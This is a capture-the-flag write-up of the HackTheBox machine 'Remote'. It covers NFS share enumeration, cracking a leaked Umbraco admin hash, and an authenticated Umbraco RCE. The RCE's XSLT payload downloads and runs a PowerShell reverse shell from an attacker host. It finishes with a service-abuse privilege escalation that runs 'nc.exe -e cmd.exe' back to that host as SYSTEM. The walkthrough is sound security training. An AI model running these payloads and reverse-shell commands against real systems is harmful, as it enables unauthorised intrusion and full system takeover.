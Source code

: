 # Remote

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.150
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 04:27 EDT
Warning: 10.129.227.150 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.150
Host is up (0.035s latency).
Not shown: 65026 closed tcp ports (conn-refused), 494 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
```

### NFS

Network File System was publicly available on port 2049, and this is not a port I see often. This service can have very interesting files and permissions, so let's enumerate it via `showmount`.&#x20;

```
$ showmount -e 10.129.227.150
Export list for 10.129.227.150:
/site_backups (everyone)
```

We can mount onto this and view the files inside:

```
$ sudo mount -t nfs 10.129.227.150:/site_backups /mnt/
$ ls -la
total 159
drwx------  2 nobody 4294967294  4096 Feb 23  2020 .
drwxr-xr-x 19 root   root       36864 Apr 22 05:16 ..
drwx------  2 nobody 4294967294    64 Feb 20  2020 App_Browsers
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Data
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Plugins
drwx------  2 nobody 4294967294    64 Feb 20  2020 aspnet_client
drwx------  2 nobody 4294967294 49152 Feb 20  2020 bin
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Config
drwx------  2 nobody 4294967294    64 Feb 20  2020 css
-rwx------  1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------  1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Media
drwx------  2 nobody 4294967294    64 Feb 20  2020 scripts
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Umbraco
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Umbraco_Client
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Views
-rwx------  1 nobody 4294967294 28539 Feb 20  2020 Web.config
```

We can go through each of the folders, and we would find an SDF file for Umbraco within `App_Data`, which normally contains hashes.

```
$ ls    
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
```

If we use `strings` on it, we would find a load of input. At the top, it seems that there are SHA1 hashes present:

{% code overflow="wrap" %}
```
$ strings Umbraco.sdf
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```
{% endcode %}

The hash can be cracked via `john`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)     
1g 0:00:00:00 DONE (2023-05-02 04:34) 1.538g/s 15113Kp/s 15113Kc/s 15113KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

So now we have some credentials at least.

### Umbraco RCE

There were hints that Umbraco was used to host the sites, so let's view port 80. It seems to be a blog page:

<figure><img src="../../../.gitbook/assets/image (28) (2).png" alt=""><figcaption></figcaption></figure>

The login page for the website is located at the `/Umbraco` directory. We can login with the credentials and email we found earlier.

<figure><img src="../../../.gitbook/assets/image (44) (7).png" alt=""><figcaption></figcaption></figure>

After logging in, we can enumerate the version that it is running.

<figure><img src="../../../.gitbook/assets/image (30) (2).png" alt=""><figcaption></figcaption></figure>

This version of Umbraco is vulnerable to an Authenticated RCE exploit:

```
$ searchsploit umbraco  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)        | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution | aspx/webapps/46153.py
```

We can use the PoC for the first one, and edit it for this machine.

```python
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "-c iex (iwr http://10.10.14.13/rev.ps1 -usebasicparsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.129.227.150";
```

Take note of the `cmd` and `FileName` parameter in the `payload` variable. In my case I just used Powershell to download and execute a reverse shell script.

<figure><img src="../../../.gitbook/assets/image (35) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PowerUp

We can first enumerate our privileges as the user:

```
PS C:\windows\tasks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disable
```

We see that we have a ton of privileges, and most importantly SeImpersonatePrivilege is enabled. This means that we probably have some cotnrol over services and this could be used for PE. I used `PowerUp.ps1` to exploit this system.&#x20;

```
PS C:\windows\tasks> wget 10.10.14.13:8000/powerup.ps1 -O powerup.ps1
PS C:\windows\tasks> . .\powerup.ps1
PS C:\windows\tasks> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1580
ProcessId   : 4156
Name        : 4156
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```

We have control over the `UsoSvc` service. With this, we can run commands as the SYSTEM user. All we need to do is download `nc.exe` to the machine and run it as the administrator.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">wget 10.10.14.13/nc64.exe -O nc.exe
<strong>Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command 'C:\Windows\Tasks\nc.exe 10.10.14.13 4444 -e cmd.exe'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (10) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!

